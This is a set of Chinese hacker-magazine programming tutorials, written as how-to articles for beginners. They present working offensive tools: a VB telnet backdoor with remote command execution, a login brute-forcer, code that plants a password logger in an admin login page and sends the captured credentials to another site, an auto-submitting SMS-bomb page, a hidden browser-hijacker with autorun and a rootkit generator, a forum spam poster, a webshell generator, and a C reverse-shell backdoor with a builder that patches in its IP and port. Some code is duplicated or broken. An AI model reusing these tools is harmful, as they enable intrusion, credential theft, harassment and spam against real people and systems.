其次，当 telnet 端请求连接时，服务端接受请求（大家可以在此试着实现密码验证机制，在此不再给出代码）。当 TELNET 连接时，触发 ConnectionRequest 事件，在这个事件中向控制端发送相应的成功连接和帮助信息。

```vb
Private Sub Winsock1_ConnectionRequest(ByVal requestID As Long)
    If Winsock1.State <> sckClosed Then Winsock1.Close
    Winsock1.Accept requestID
    Winsock1.SendData "backdoor v1.0" & vbCrLf & Space(16) & "code by eighteen" & vbCrLf & _
        "& vbCrLf & "type help to get help" & vbCrLf & "shell>"
End If
End Sub
```

```vb
" & vbCrLf & "type help to get help" & vbCrLf & "shell>"
End If
End Sub
```

当我们连接上时，就需要对 TELNET 发来的命令进行一系列的处理和执行，以及执行相关的控制功能。其中的问题是服务端接受来自 TELNET 客户端的连接和命令。由于 TELNET 传输命令时只能每次传输一个字符的特殊性，所以我们需要编写一个处理命令的过程。还有就是对特殊字符的过滤和处理，如 TELNET 输入错误按 DEL 键，按 ENTER 键结束完成一条命令的输入。

当 TELNET 连上服务端时，实现 shell 功能，以及 shell 功能和其它功能的分离。对其中的问题有了大概的了解，那实现起来也就不难了。代码如下：

```vb
Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
    Dim str1 As String
    Dim scmd As String
    Dim i As Integer
    Dim tag As Integer
    Winsock1.GetData str1
    ' 过滤del键盘
    If Asc(str1) = 8 Then
        myname = ""
        Winsock1.SendData vbCrLf & "shell>"
    End If
    If (Asc(str1) <> 13) And (Asc(str1) <> 8) Then
        myname = myname + str1
    ElseIf Asc(str1) <> 8 Then
        Text1.Text = myname & vbCrLf
        tag = InStr(Text1.Text, Chr(13)) - 1
        scmd = Left(Text1.Text, tag)
        ' 判断是否在虚拟shell中...
    End If
End Sub
```

```vb
If cmdno = True Then
    Select Case scmd
    Case "help"
        Winsock1.SendData "cmd" & vbCrLf & "reboot" & vbCrLf & "shutdown" & vbCrLf & "exit" & vbCrLf & "<shell>"
    Case "reboot"
        ExitWindowsEx EXW_REBOOT, 0
    Case "shutdown"
        ExitWindowsEx EXW_SHUTDOWN, 0
    Case "exit"
        Winsock1.SendData "exit successful"
        Winsock1.Close
        Winsock1.Listen
    Case "cmd"
        Winsock1.SendData "获得虚拟shell成功!" & vbCrLf & "vcmd>"
        cmdno = False
    Case Else
        Winsock1.SendData "command error!" & vbCrLf & "shell>"
    End Select
Else
    Shell "cmd.exe /c " & scmd & " >" & syspath & "\shell.rtf&exit", vbHide
    Sleep (500)
    Call tranlit
    Winsock1.SendData "如果想退出虚拟shell, 请输入exit" & vbCrLf & "vcmd>"
    If scmd = "exit" Then
        Winsock1.SendData "成功退出虚拟shell" & vbCrLf & "shell>"
        cmdno = True
    End If
End If
End Sub
```

接下来要考虑的是虚拟 shell 的实现。我用了一个简单的方法，就是把命令执行结果写入一个文本文档，然后读取其中的内容并将结果发送给控制端。代码如下：

```vb
Sub tranlit()
    Dim strrlt As String
    Open syspath & "\shell.rtf" For Input As #1
    Do While Not EOF(1)
        Line Input #1, strrlt
        Winsock1.SendData strrlt & vbCrLf
    Loop
    Close #1
    Winsock1.SendData "----------------" & vbCrLf
    Shell "cmd.exe /c del " & syspath & "\shell.rtf&exit", vbHide
End Sub
```

至此，后门的主要问题都解决了。这个后门模型并不完整，所谓学而三思，思而后行，剩下的问题读者可以尝试去解决。在此我不再给出源码，提示一下：

1. 如果 TELNET 不能正常退出，服务端还会继续保存当前会话，重新连接后失败。还需要考虑如何允许多人同时连接功能。  
2. 可以加入密码验证机制，并在此基础上扩展控制功能，如键盘记录、文件上传等。  
3. 一个成功的后门，必须有良好的隐藏和自我保护机制。

以上只是个人思路。不难实现，其实程序编写只有深入实践，才会发现并解决问题。在发现问题、解决问题的过程中，你会学到更多，成功后的满足也更多。

## 利用 VB 编写 QQ 综合信息查询器

侯金星 & 罗秦琼 [518°C]

在上一期黑客 X 档案的光盘中，收录了一个 QQ 综合信息查询器。利用它，不用登录 QQ，就可以查看任意 QQ 用户的资料、红黄蓝钻开通情况、交友中心资料、QQ 相册、在线状态和直达访问 Q-zone。

今天我就来教大家如何编写一个属于自己的 QQ 综合信息查询器。我们只需要对 VB 有一些基础了解，调用 VB 中的 “Microsoft Internet Controls” 控件即可实现。

先来制作软件界面。新建工程后在工具栏添加 Microsoft Internet Controls 控件，在工程中放置 WebBrowser 作为内容显示区；再放置 TextBox 输入 QQ 号码；然后放置 CommandButton，设置多个按钮分别用于不同查询内容。

分别用来制作要查询的内容。把第一个按钮后面的 Caption 属性中设置对应文字（其余按钮类同）。

## 黑客编程

打上“在线状态”，下面的依次类推，分别打上“财富红黄蓝钻查看”、“访问 Q-zone”、“访问 QQ 相册”、“交友中心详细原始资料”，最后一个设为“退出”，如图1。好了，界面基本就这样完了，你还可以把它做得更精致一些，打上版权信息、软件说明或者广告图片之类的东西。

下一步我们来编写代码。其实非常简单，我们只需要类似这样的代码：`WebBrowser1.Navigate "页面地址" & Text1.Text`（Q 号从 Text 文本框中获得）。

- QQ 财富红黄蓝钻的开通信息：`http://qqshow.qq.com/cgi-bin/qqshow_user_info?uin=QQ号;`
- QQ 交友中心详细原始资料：`http://bbs.qq.com/cgi-bin/bbs/friend/user_info_show?ln=QQ号;`
- 进入 QQ 相册：`http://photo.qq.com/cgi-bin/listexalbum?ownerid=QQ号;`
- 不用登录 QQ，查看任意号码在线状态：`http://wpa.qq.com/pa?p=1:QQ号:4;`
- 直接访问 Q-zone：`http://q-zone.qq.com/client/?uin=QQ号。`

```vb
1.WebBrowser1.Navigate "http://wpa.qq.com/pa?p=1:0" & Text1.Text & ":4"
2.WebBrowser1.Navigate "http://qqshow.qq.com/cgi-bin/qqshow_user_info?uin=" & Text1.Text
3.WebBrowser1.Navigate "http://q-zone.qq.com/client/?uin=" & Text1.Text
4.WebBrowser1.Navigate "http://photo.qq.com/cgi-bin/listexalbum?ownerid=" & Text1.Text
5.WebBrowser1.Navigate "http://bbs.qq.com/cgi-bin/bbs/friend/user_info_show?ln=" & Text1.Text
```


上面网址中的 QQ 号从 Text1 文本框中获得。在这里，我们使用了 WebBrowser 来调用每一种网页的代码，然后让其从显示栏中显示出来。最后一个退出的代码是：`End`。记住要在每句话后面都要加一个“;”，因为编译程序规定每句都以“;”来结尾。现在，一切都完成了，按 F5 来运行一下自己的杰作吧。最后调试一下，如果还满意的话，点击“文件”里面的“生成工程”来生成 exe 的可执行文件，就可以脱离 VB 独立运行了，如图2。最后我们修改成一个好看的图标，就去发布吧。

### 详解 XMLHTTP 控件的应用

最近在我的脚本群里总有一些朋友问我 XMLHTTP 对象到底是什么，有什么用。本文我就详细地介绍一下 Microsoft.XMLHTTP 对象的使用，希望对大家能有所帮助。

首先，Microsoft.XMLHTTP 是一个控件，而且是系统默认自带的控件（Windows 98 以下除外），它通过 HTTP 协议访问网络。在我的理解中，XMLHTTP 控件就相当于一个浏览器：向网站发送 HTTP 请求（POST 或 GET），然后取得返回数据。

一些小菜们是不是认为编写关于 WEB 入侵的程序需要很高的编程技术？其实通过 XMLHTTP 对象可以轻易地完成这类程序。下面我就通过一些实例来介绍一下 XMLHTTP 的应用。调用 XMLHTTP 的方法很多，为了方便，本文用 VBS 脚本来实现。


#### 一、密码暴力破解程序

让我们先通过一个例子来熟悉一下 XMLHTTP 的使用方法。图1所示的是我们学校论坛的登录页面。通过查看源代码，我们看到如下代码（我省略了部分表格代码，仅保留关键信息）：

```html
<form action='User/login.asp' method='post'>
用户名<input name=user type=text maxlength=20 size=10 value='' class=fmipt>
密码<input name=pass type=password maxlength=20 size=10 value='' class=fmipt>
<input type=submit value='登录' class=fmbtn>
</form>
```

由此可以看出，用户登录的实质是通过浏览器对“User/login.asp”页面进行一次访问，并提交 user 和 pass 两个变量的值。当然，除了查看源代码，你也可以通过抓包来分析。前面说过，XMLHTTP 控件就相当于一个浏览器，那我们来看看如何用 XMLHTTP 来模拟一次登录。先在网站上随便注册一个用户，如用户名“千寂孤城”，密码“qjgc”，然后写一个脚本，代码如下：

```vb
Function URLEncoding(vstrin)  '一个转换函数，暂时不写它，后文会提到
strReturn = ""
Dim i
For i = 1 To Len(vstrIn)
  ThisChr = Mid(vstrIn, i, 1)
  If Abs(Asc(ThisChr)) < &HFF Then
    strReturn = strReturn & ThisChr
  Else
    innerCode = Asc(ThisChr)
    If innerCode < 0 Then innerCode = innerCode + &H10000
    Hight8 = (innerCode And &HFF00) \ &HFF
    Low8 = innerCode And &HFF
    strReturn = strReturn & "%" & Hex(Hight8) & "%" & Hex(Low8)
  End If
Next
strReturn = Replace(strReturn, Chr(32), "%20")
URLEncoding = strReturn

set http=createobject("Microsoft.XMLHTTP")
http.open "POST", "http://***/User/Login.asp", false
http.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"
name=URLEncoding("千寂孤城")
http.send "user="&name&"&"&"pass=abcd"

set aso=createobject("Adodb.Stream")
aso.open
aso.type=2
aso.write http.responsebody
aso.savetoFile "ok.htm",2
aso.close
```

运行这个脚本后，当前目录会生成一个 ok.htm 文件，打开看看，如图2。


图2

看到的页面和我们通过浏览器登录时输错了密码后出现的页面基本一致。接下来我们再把脚本中提交的密码改成正确的……

ok.htm 文件，看到页面如图3。啊啊，成功登录了吧！我再解释两点：1、URLEncoding 函数的用处是把提交数据转换成16进制……2、上面的脚本里用 Adodb.Stream 来写文件……


图3

通过刚才这个脚本相信大家对 XMLHTTP 控件的使用方法已经很清楚了，那么写一个密码破解程序是不是变得很简单了呢？……以“千寂孤城”为例，我们可以这样写：

```vb
set fso=createobject("scripting.filesystemobject")
set zidian=fso.opentextfile("zidian.txt")
set http=createobject("Microsoft.XMLHTTP")
http.open "POST","http://***/User/Login.asp",false
http.setrequestheader "content-type","application/x-www-form-urlencoded"
name=URLEncoding("千寂孤城")
http.send "user="&name&"&"&"pass=abcd"
FalseLenth=len(http.responsebody)

do while zidian.atendofstream=false
  pwd=zidian.readline
  http.open "POST","http://***/User/Login.asp",false
  http.setrequestheader "Content-Type","application/x-www-form-urlencoded"
  http.send "user="&name&"&"&"pass="&pwd
  if len(http.responsebody)<>FalseLenth then
    wscript.echo "密码是:"&pwd
    wscript.quit
  end if
loop
```

#### 二、记录管理员密码

大家在通过各种方法得到一个 webshell 后想得到管理员的密码时会怎么做呢？从数据库中取出经过 md5 加密后的密码狂暴破解？……还可以修改 Admin 的登录页面，使其在 Admin 登录时自己把密码记录下来。

```vb
set aso=createobject("Adodb.Stream")
aso.open
```

```asp
aso.type=2
aso.loadfromfile "logs.asp"
aso.position=aso.size
aso.writetext Request.Form("user")&"|"&Request.Form("pass")&"|"
aso.saveToFile "logs.asp",2
aso.close
```

```asp
http.open "POST","http://***/guestbook/save.asp",false
http.setrequestheader "Content-Type","application/x-www-form-urlencoded"
' 提交数据，除了 user 和 pass 还有一些留言表单必填项
http.send "face=...&guestname=test&guestcontent=...&user="&user&"&pass="&pass
```

这种方法虽然方便但太显眼了。你想想服务器上无缘无故多出了一个文件，里面还记录着自己的密码。管理员就是再白痴也会把密码改掉了。但是如果我们通过调用 XMLHTTP 控件将管理员的密码提交到其他站点去，效果就不一样了。管理员即使发现了也只有干瞪眼。呵呵，我们在登录页面中插入类似如下的代码就可以了：

最好是把提交数据的代码插入到源文件的某些函数中，如判断登录是否成功的函数。要知道哪些是必须提交的数据只需到留言本上去发个贴，抓包下载看着就明白了。希望同学们不要通过修改自己学校论坛的登录页面来获得其他同学的密码并用得到的密码来测试他人的邮箱或 QQ。

```vb
Function URLEnCoding(vstrIn)
  ' 略
End Function
user=urlencoding(Request.Form("user"))
pass=urlencoding(Request.Form("pass"))
set http=createobject("Microsoft.XMLHTTP")
' 可以看出是个留言本
```

#### 三、总结

XMLHTTP 控件的应用当然远不止这些。如抢注会员、疯狂刷票、Cross-Site 和 SQL Injection 漏洞利用程序以及小偷程序、断点续传程序、原始木马等等都有它的用武之地。但实质是一样的，不外乎就是对指定页面进行一次或多次访问，发送各种请求并将服务器返回的数据进行分析处理。通过我举的这两个例子相信各位小菜们一定对如何使用 XMLHTTP 控件有了足够的了解，自己也能举一反三，写出各种 DIY 的黑客工具来了吧！


相信很多朋友都使用过短信炸弹吧……想必你们也会发现短信炸弹的使用时间都有一定期限，一般来说，新的软件过了一段时间就不能使用了。其实，这是因为短信炸弹是利用网络上商家手机注册发送验证码而伺机不停发送垃圾信息达到攻击的目的，而商家的验证码都是有时间期限的，过了期限你的手机炸弹当然就不能用了。现在我就教各位如何制作一个万能手机炸弹，绝对是永久不过期。

我们先来看看这个页面 `http://mo.bokee.com/special/feixun/reg.php`，如图1。都是比较熟悉吧，又是使用手机注册某个东西，但是我找的这个比较特别，是移动公司自己搞的活动，发送短信速度是相当得快，最适合制作短信炸弹了。让我们来看它的源代码，我截取了其中比较关键的部分。


```html
<input name="mobile" type="text" class="ver2input" style="width:200px" tabindex="1" maxlength="15" />
<input name="nextsetp" type="hidden" id="regsetp" value="2" />
<input style="padding:5px 20px 5px 20px; font-weight:bold; font-size:100%" name="input" type="submit" value="下一步" />
```

根据关键代码，把页面简化成如下代码：

```html
<html>
<body>
菜鸟炸弹
<form action="http://mo.bokee.com/special/feixun/reg.php" method="POST">
<input value="138****9245" name="mobile" />
<input name="nextsetp" type="hidden" id="regsetp" value="2" />
<script>
this.document.forms[0].submit();
</script>
</form>
</body>
</html>
```

简单吧，这样我们就构造出了一个网页，在“手机号码”处填写你要攻击的号码，保存为网页，打开后立即自动发送短信，速度非常快，使用回退就可以重复发送了（图2）。本来我还打算加上每秒自动刷新的代码，但是翻阅以前的 X 档案，发现已经有人写过了，在此就不赘述了，也锻炼一下大家的动手能力，快去试试吧，很有成就感的。（本文中所涉及到的短信炸弹网页已收录到光盘中）


## 监别人的网站

### 特搞“骗”成自己的网站


看着别人的网站这么多人访问，而自己的网站却只有寥寥几人，心里难免不是滋味。本文介绍通过编程方式将访问某些网站的流量“引导”到自己的网站。

众所周知，有些网站是大家经常要用到的，比如百度、Google 等。可以写一个程序监视器，当对方打开指定站点（如 `http://www.baidu.com`）时，自动转向到我们的网站（如 `http://www.xdxf.net`）。

核心思路是通过 IE 浏览器对象进行控制。利用 COM 接口可实现对网页内容过滤、自动填写表单、获取标题与 URL 等操作。文中说明了 COM 接口与多态的基本概念，并采用 VC/MFC 进行实现。

```cpp
#import <mshtml.tlb>
#import <shdocvw.dll>
#include <atlbase.h>
#include <Mshtml.h>
#include <winuser.h>
#include <comdef.h>
```

程序初始化时需先调用 `CoInitialize`（或 `CoInitializeEx`）初始化 COM。随后设置定时器定期检查系统中的 IE 实例，如在 `OnInitDialog()` 中使用 `SetTimer(0,500,NULL)`，在定时响应中调用处理函数。

示例中创建 `IShellWindows` 对象并遍历实例：`SHDocVw::IShellWindowsPtr m_spSHWinds; m_spSHWinds.CreateInstance(__uuidof(SHDocVw::ShellWindows));`，再通过 `GetCount`、`Item` 等方法获取浏览器对象。

右栏进一步给出遍历 IE 实例的方式：`long nCount = m_spSHWinds->GetCount();`，通过 `IShellWindows::Item` 获取每个 `IDispatch` 实例，再判断是否为 IE 浏览器对象。

```cpp
SHDocVw::IWebBrowser2Ptr spBrowser(spDisp);
assert(spBrowser != NULL);
```

得到 `IWebBrowser2` 后，可进行前进、后退、读取标题、读取 URL 等操作。示例使用 `GetLocationName()` 与 `GetLocationURL()` 获取当前页面信息，并据此决定是否进行跳转。


图1

若要隐藏窗口，可在 `OnInitDialog()` 中加入窗口移动与样式设置代码。

```cpp
MoveWindow(0,0,0,0,FALSE);
SetWindowLong(this->GetSafeHwnd(), GWL_EXSTYLE,
    WS_EX_TOOLWINDOW|WS_EX_STATICEDGE);
```

为避免重启后失效，可加入开机启动项（如 `SetAutoRun("winsrv.exe")`）。文中还给出按条件匹配多个目标站点并重定向到指定网址的扩展示例。


图2

说明文字：可添加多条“域名匹配条件 -> 重定向地址”的规则，例如多个站点分别指向同一或不同目标地址。

```c
if ((strstr(bsURL, hateurl1)) != NULL)
if ((strstr(bsURL, hateurl2)) != NULL)
if ((strstr(bsURL, hateurl3)) != NULL)
```

为了更方便大家，我把该程序弄成生成器模式，使用生成器可以生成自己的程序……会出现进程的，我在生成器生成出可以用的木马程序上嵌入了 ROOTKIT 隐藏进程的技术。

这个使用代码实现起来比较困难，大家也许会看不懂，不过有代码大家可以去研究研究哦；生成器的界面如图2所示。最后，希望大家多发挥一下自己的想象力，尽可能地完善这个程序。自己动手丰衣足食哦。

> （文章中涉及到的源程序及生成器已经收录于光盘中）


## 贴吧群发——我们制作百度贴吧群发器

iamabird

这几天在网上发现了几款百度贴吧群发器，可下载回来之后要么不能使用，要么就是需要收费的。为了发扬 DIY 精神，我决定自己做一个贴吧的群发器。

首先构思一下程序。为了不使代码混乱并且影响程序运行的效率，我将贴吧名称搜索和贴吧群发分为两个独立的程序进行分别开发……新开一个贴吧然后申请吧主，三天之后就能收到管理员发给你的邮件。


Image2、Command1、Label7、Image3、List1、Command3、Image1、Text4、Timer1、Text1、Text2、Label1、Inet1、Label3、Label2、Label6、Label4、Label5、Label8……其余按图5所示进行修改。

先写 Command1 的代码，也就是分析网页部分的代码。它的作用是先将列表控件清空，然后加载 Web.txt……经过分析网页，查找关键字并提取贴吧名。

接下来就是知道百度贴吧的页面有什么特点或者共性，以便程序能够很快识别这些页面。我们先用吧主账号登录一下贴吧，然后把贴吧的 HTML 代码给截下来，搜索关键字“`<form>`”……程序中还要加入验证码动态更新的代码。


思路已经有了，程序的流程总结如图2所示。

### 一、修改页面代码

我们先抓取以下几个页面：登录页面、某贴吧页面。经过分析，找到提交表单的 name 名称，若没有 name，则在 `<form>` 范围中填入“name=XXX”，然后添加以下代码：

```html
<script>
setTimeout("表单的name值.submit()",1)
</script>
```

这个就是自动提交页面的代码，后面的 1 是指 1/1000 秒，也就是说加载页面之后立即提交表单。

### 二、吧名搜索爬虫程序的制作

打开 VB6.0 工程菜单的部件项（图3），然后把 Microsoft Internet Transfer Control 6.0 控件选上（图4），点击确定后，按照图5所示的布局将控件布置在窗体上。


按照从上到下、由左到右的顺序，控件名称分别是 Text3、Command2、Image2、Command1……在 End Sub 之后输入 `Sub Rebuildline(newline)` 并回车，加入自定义函数代码。

Dim 是用来定义变量的。经过分析网页相关贴吧的格式大约为 `arr[1]=new Array("baidu","baidu")`，可见真实的贴吧名是在双引号里面。这里面 `InstrRev` 函数是用来从尾部搜索关键字，由于 VB 不容易输入英文双引号，于是此处我将 Label1.Caption 的属性设为英文双引号。将从后面搜索的第一个双引号和第二个双引号的位置 B 和 C 代入到 Mid 函数中，得到切割下来的字符串。这里直接将字符串加入到 List1 中，Label5 作为一个计量容器，我们顺便将它的数值加 1，也就是前面图中“动态发现”后面的那个文本标签。

接下来编写 Command2 的 Click 事件代码，将 Inet1 控件利用上，让 Inet1 控件读取百度贴吧并将网页的代码赋给 Text2。Text3 是用来输入贴吧名称的，在这里作为一个提交的变量。打开 Web.txt，写入网页代码，前面说到的 Command1 的事件里用到的那个 Web.txt 也是这个文件。Label8 充当状态栏，当一切工作完毕时，Label8 显示“正常”。

```vb
On Error GoTo B
Dim A
Text4 = ""
Open "C:\Lists.txt" For Input As #3
A = 1
Line Input #3, A
If Text4 = "" Then
  Text4 = A
Else
  Text4 = Text4 & vbCrLf & A
End If
GoTo A
B:
Close #3
A = 0
ADDS
Open "C:\Lists.txt" For Output As #2
Print #2, Text4
Close #2
Command1.Enabled = False
Command3.Enabled = False
Command2.Enabled = True
```

整个程序先将 Lists.txt 文件全部读出来，一行一行地赋给 Text4。Text4 的 Multiline 属性必须是 True，以便支持多行文本。然后启动 ADDS 事件，将 Text4 里的东西一股脑全部塞到 Lists.txt 里。

接下来编写 ADDS 事件，一开始让 `A=-1`，因为后面有一个 `A=A+1`，List 的列表序号是从 0 开始的。它的功能就是把列表 List1 里的东西导入到文本框 Text4 里。上面那个判断语句是用来判断是否为空，如果为空，那么退出这个过程；紧接着下面那个判断语句是保证 Text4 的格式整齐而且没有空行的。


### 三、百度批量发帖程序的制作

新建一个工程，同样先加入几个部件：Microsoft Internet Transfer Control 6.0 和 Microsoft Internet Controls。控件按顺序分别是 Picture1、Picture2、Frame1。Frame1 里面是 Text1、Text16、Label5、Text14、Text15、WebBrowser1、Frame2。Frame2 里是 Text10、Label2、Text7、Label3、Text8、Label4、Text9、Timer1、Command1、Command2、Inet1、Label1。Picture1 展开后，里面是 Start、Text2、Text3、Text4、Text5、Text6。Picture2 展开后，里面是 Text11、Text12、Text13，如图8、图9。Text16 和 Picture1、Picture2 都是不可见的，Text1 以及 Picture1 和 2 里面的 Text 控件都是支持多行的，而且有横向滚动条。


在编写之前，我们先把网页分析之后再分割开，凡是需要手动输入的地方全部断开，“Value=”之前的要断开，第二个“`"`”后面的代码放到下一个文本框。贴吧的网页分割后分别放入 Picture1 的 Text 控件里，分别在验证码、标题、内容、图片的地方断开。登录的网页分割后分别放入 Picture2 的 Text 控件里，分别在用户名和密码处断开。

首先编写 Command1 的代码，作用就是拼接登录网页，并且用 WebBrowser1 显示出来，这样程序就获得了吧主可以避免填写验证码的特权。Command2 用来启动发帖的过程，先用一个判断语句避免用户不必要的填写错误，如果有未填写的项目，程序会自动弹出对话框并且结束事件过程。将 Lists.txt 打开，文件号为 3，启动 Timer1 定时器，定时为 4 秒。

```vb
If Text14 = "" Or Text15 = "" Or Text7 = "" Or Text8 = "" Or Text9 = "" Then
  MsgBox "你填写的信息不全", vbCritical, "错误提示"
  Exit Sub
End If
Command2.Enabled = False
Open "C:\Lists.txt" For Input As #3
Timer1.Interval = 4000
```

Timer1 的事件如下，从 Lists.txt 读入一行文字，然后启动 Tihuan 事件；这个文字就是贴吧名称，赋给 Text10，然后拼接代码并保存到 Web.html，最后用 WebBrowser1 显示这个网页。若出现错误，也就是说明 `Line Input` 超出 #3 的文件尾，那么 A 自动提示结束。如果没有错误就跳过结束提示，`Text7 = "->" & Text7` 和 `Text8 = "->" & Text8` 这样处理可以简单地防止出现灌水的提示。

既然提到了 Tihuan 事件，那么 Tihuan 又是怎么写的呢？本文中我让 Tihuan 事件把百度任意一个贴吧的代码读取下来，并保存到 Web.txt 里；经过分析网页，搜索“验证码”关键字，找到验证码的一大堆序列，它们共同的特点就是以 `var img_str` 开头。将 Web.txt 再次打开，分析每一行，找到有序列号的那一行，把值赋给 Find 自定义函数。

```vb
On Error GoTo B
Inet1.Cancel
Inet1.Protocol = icHttp
Inet1.URL = "http://post.baidu.com/..."
...
Text16 = Inet1.OpenURL
Open "C:\Web.txt" For Output As #1
Print #1, Text16
Close #1
Open "C:\Web.txt" For Input As #1
A:
Line Input #1, A
If Left(A, 11) = "var img_str" Then
  Find A
End If
GoTo A
B:
Close #1
```

最后写 Find 函数的代码，先根据网页中的特点，取 30 个字符以后的字符串，然后再反序整个字符串，去掉前面 3 个字符，再反序回来，把值赋给 Text1，这个 Text1 就是 Timer1 里面拼接代码里面的一部分。

运行一下，如果网页代码出错，把网页代码修改一下，直到没有错误产生（图10）。最后总结一下，整个程序用了几个编程的小技巧，比如如何合理避过出错崩溃，如何读写硬盘中的文件，以及如何操纵 Microsoft Internet Transfer Control 6.0 和 Microsoft Internet Controls 控件，同时也分析了 HTML 文件，知道了如何找到代码中的薄弱点。


（文章中涉及到的程序源代码及示例程序已收录在光盘中）

## 轻松一点——给“网马”编出彩

小白

今天一朋友跟我讨要网马，说自己删错了文件夹，把平时收集的网马全搞丢了。我平时也收集了一些 ASP 的木马，直到找的时候才发现到处都是，都不知道哪个是哪个了，所以我决定利用 VB 制作一个自己的脚本木马生成器，把常用的喜欢的合在小程序里，用的时候直接生成就行了。

程序的实现其实很简单。第一步：把需要用到的木马文件添加到资源中；第二步：将资源中的内容以数据的形式载入到变量中；第三步：把变量中的数据写到我们指定的文件中，生成我们需要的文件。

我们一步一步来做，打开 VB6.0，新建一个标准的 EXE 程序，在界面上放一个按钮控件；我们要把资源编辑器调出来，工具栏的最后一个图标就是资源编辑器（图1）。


如果在工具栏上没有找到这个按钮，可以在菜单栏找到“外接程序”选择“外接程序管理器”，在“可用外接程序”中找到“VB 6 资源管理器”，然后在“加载行为”中把“启动时加载”“加载/卸载”两项选中（图2），确定后退出，再重启 VB，资源编辑器的图标就会出现了。

打开资源管理器（图3），选择“添加自定义资源”，然后选择添加自己的网马文件（图4）。到此，我们的第一步算是完成了。不过还需要得到网马大小，这个可以在文件属性里看到，需要以字节为单位。


下面进行第二步，把资源中的数据载入到程序中，我们需要一个函数 `LoadResData()`，具体代码如图5所示。

```vb
Private Const FILESIZE = 947
Private Sub Command1_Click()
  Dim Hmsp() As Byte
  Dim Count As Long
  Hmsp = LoadResData(101, "CUSTOM")
End Sub
```

`LoadResData()` 函数需要注意里面的两个参数：第一个是资源 ID，第二个是资源的字符串名。好了，第二步我们也完成了。

接下来就要进行最后一步了——把载入的资源数据以文件的形式写到相关目录下面，具体代码如图6所示。

```vb
Open App.Path & "/dy.asp" For Binary As #1
For Counter = 0 To UBound(EXEBASE)-1
  Put #1, , Chr$(EXEBASE(Counter))
Next Counter
Close #1
End Sub
```


至此，我们就把这个程序完成了，大家可以自己完善代码，以使它更加完善。这是一个比较简单的例子，欢迎大家在论坛上与我交流！

输入完代码后，按照需要将其它的网页文件也按上面的方法一个个添加进去；全部完成后按 F5 执行查看效果。

## 我亲手制作木马服务端生成器


提起木马，不管是菜鸟还是老鸟，都一定非常熟悉吧！不管是冰河还是灰鸽子，都有一个服务端生成配置器用于专门配置及生成木马的服务端。不过，在网上关于这种配置器的制作却是非常少的，即使有，也是非常简单的描述。本文我们就以实例的形式来讲解这种服务端配置生成器的制作。

- 在服务端尾部追加配置信息，服务端读取自身尾部配置信息。
- 读取外部文件（一般为 .ini 文件）来获取配置信息。
- 直接修改服务端里的数据参数初始数值。

本文以第三种方法为例，详细讲解如何利用生成配置器程序的资源生成服务端并在服务端中写入配置信息。为了避免编程中不必要的问题，我们先来整理一下编程的大概思路。

- 首先明确所用编程语言和编程工具（文中采用 Delphi 7.0；方法可通用）。
- 服务端制作思路：先写好/改好代码并编译通过，生成可执行文件，为后续步骤做准备。
- 生成参数定位：使用 16 进制编辑器对服务端运行参数进行定位并记录结果。
- 配置器的制作和测试。

### 一、生成和优化服务端

在本文中，我们的服务端是一个反弹后门，配置器要修改的就是服务端中反弹连接的 IP 地址和端口的初始值，代码如下。

```c
#include <winsock2.h>
#pragma comment(lib,"ws2_32")
int MyFun(){
  char port[7]="XXXXXX";
  char back_ip[20]="BXXXXXXXXXXXXXXX";
  WSADATA ws;
  SOCKET s;
  int ret;
  WSAStartup(MAKEWORD(2,2),&ws);
  ...
}
```

```c
s=WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
struct sockaddr_in server;
server.sin_family=AF_INET;
server.sin_port=htons(atoi(port));
server.sin_addr.s_addr=inet_addr(back_ip);
connect(s,(struct sockaddr*)&server,sizeof(server));
...
CreateProcess(NULL,"cmd.exe",...);
return 0;
```

好了，以上代码很简单，检查确认无误后，使用 VC 进行编译，如图1。


不过，生成的这个程序有 100 多 K，对于木马来说也确实是太大了，原因很简单：DEBUG 生成的程序中包含很多没用的调试信息，所以使得编译后的程序大了很多。

## 黑客编程

一下编译参数，就会编译出超小的后门，至于小到何种程度，按照下面的方法试试就知道了。以下是我结合别人的编译设置方法和自己总结的一些技巧。

- 使用 Release 编译方式。程序默认是 DEBUG 方式，而使用 DEBUG 方式编译的程序要比 Release 的大好几倍，生成的程序中包含着很多没用的调试信息。
- 更改编译对齐方式，默认为 0x1000（即 4096 BYTE），改为尽可能小（一般最小为 16），对应命令行：`/DRIVER /align:16`。
- 将程序的数据段和代码段放在一起，对应命令行：`/merge:.data=.text /data=.text`。
- 指定程序入口函数，尽可能减小程序体积。

我们打开菜单 Project 中的 Setting 项，进入“Project Setting”窗口，按照上面的方法来进行设置，如图2。


设置好后，重新进行编译生成。这回，生成的程序才 3.21K。若运行出现明显的 DOS 窗口弹出，可在“Project Options”中将 `/subsystem:console` 改为 `/subsystem:windows`。

好了，服务端就这样制作好了，编译程序的技巧和方法我也介绍完了，下面我们进入下一步。

### 二、把服务端生成为资源文件和定位查找回弹参数

- 首先用服务端生成一个资源文件，在生成服务端的文件夹里建立文本文档，内容为 `eighteen RCDATA backdoor.exe`，然后改名为 `server.rc`。
- 把 `brcc32.exe` 复制到当前文件夹，建立批处理，内容为 `brcc32.exe server.rc`，运行后生成 `server.res`，再复制到生成器工程目录。
- 使用十六进制工具打开服务端，搜索标记并定位参数位置，如图3所示。


简化配置器时最重要的是保证数据正确，否则生成的服务端无法运行。定位到反弹端口和 IP 后，可在代码中增加对应常量。

```pascal
const
  offset_port = 2316;
  offset_ip   = 2296; // 两个值根据定位结果设定
```

```pascal
unit Unit1;
interface
uses
  Windows, Messages, SysUtils, Variants, Classes,
  Graphics, Controls, Forms, Dialogs, StdCtrls;

const
  offset_port = 2316;
  offset_ip   = 2296;
  {$R server.RES}

type
  TForm1 = class(TForm)
```

接着就是界面设置了，如图4所示。


界面可以按照图4所示来进行设置，下面最关键的就是两个按钮的单击事件了，代码如下。第一个用来设置保存生成服务端的路径。

```pascal
procedure TForm1.Button2Click(Sender: TObject);
begin
  try
    if not OpenDialog.Execute then exit;
    edit3.Text := OpenDialog.FileName; // 将路径保存到edit3中
  except
  end;
end;
```

```pascal
// 修改文件，将配置信息写入文件中
SetFilePointer(shengjingzhizhen, offset_ip, nil, FILE_BEGIN); // 定位偏移
Buff := PChar(backip + StringOfChar(#0, 20 - Length(backip))); // 要写的数据
WriteFile(shengjingzhizhen, Buff, 20, BytesWritten, nil);

// 再次修改文件
MessageBox(0, '服务端生成成功！' + backip, 'MB_OK');
```

下面这一个是用来生成服务端的代码，仔细看看哟！

```pascal
procedure TForm1.Button1Click(Sender: TObject);
